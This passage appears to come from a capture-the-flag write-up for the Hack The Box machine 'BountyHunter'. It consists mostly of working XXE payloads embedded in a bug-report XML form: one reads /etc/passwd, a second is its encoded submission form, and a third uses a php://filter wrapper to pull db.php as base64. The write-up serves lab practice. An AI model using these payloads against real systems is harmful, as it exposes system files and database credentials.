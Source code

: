 XXE Payload

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<bugreport>
    <title>&xxe;</title>
    <cwe>test</cwe>
    <cvss>test</cvss>
    <reward>test</reward>
</bugreport>
```

Payload

```txt
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIHJlcGxhY2UgWzwhRU5USVRZIHh4ZSBTWVNURU0gImZpbGU6Ly8vZXRjL3Bhc3N3ZCI%2BIF0%2BCjxidWdyZXBvcnQ%2BCiAgICA8dGl0bGU%2BJnh4ZTs8L3RpdGxlPgogICAgPGN3ZT50ZXN0PC9jd2U%2BCiAgICA8Y3Zzcz50ZXN0PC9jdnNzPgogICAgPHJld2FyZD50ZXN0PC9yZXdhcmQ%2BCjwvYnVncmVwb3J0Pg%3D%3D
```

<a href="/assets/images/htb-machine-bountyhunter/htb-machine-bountyhunter_004.png"><img src="/assets/images/htb-machine-bountyhunter/htb-machine-bountyhunter_004.png"></a>

Do you remember db.php file found in fuzz?

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=db.php"> ]>
<bugreport>
    <title>&xxe;</title>
    <cwe>test</cwe>
    <cvss>test</cvss>
    <reward>test</reward>
</bugreport>
```
